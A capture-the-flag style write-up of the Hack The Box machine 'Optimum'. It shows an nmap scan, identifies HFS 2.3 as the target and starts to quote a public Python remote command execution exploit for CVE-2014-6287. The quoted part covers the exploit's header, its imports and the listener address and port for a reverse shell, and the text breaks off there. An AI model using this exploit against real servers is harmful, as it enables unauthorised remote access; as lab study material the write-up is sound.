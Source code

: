 - Nmap
- Searchsploit
- winPEAS
- Sherlock

## Port Scanning

```bash
sudo nmap $IP -n -Pn -vvv --min-rate 5000
```

```bash
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-title: HFS /
|_http-server-header: HFS 2.3
| http-methods:
|_  Supported Methods: GET HEAD POST
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

With a quick port scan we can observe that the only thing which seems open is webpage running at **port 80.**

## Enumeration

![Untitled](/HTB/optimum-1.png)

If we take a quick look to the page we can see that is a http file transfer server.

The home page leaks the version of HFS that is using in this case is the **HFS 2.3**.

![Untitled](/HTB/optimum-2.png)

Let’s see if we can find any exploit in **searchsploit.**

![Untitled](/HTB/optimum-3.png)

## Exploiting

There are a lot of exploits talking about Remote Command Injection this can help us to put a reverse shell on the remote machine. I have chosen `HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)`.

```python
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.10.14.20"
lport = 4444
```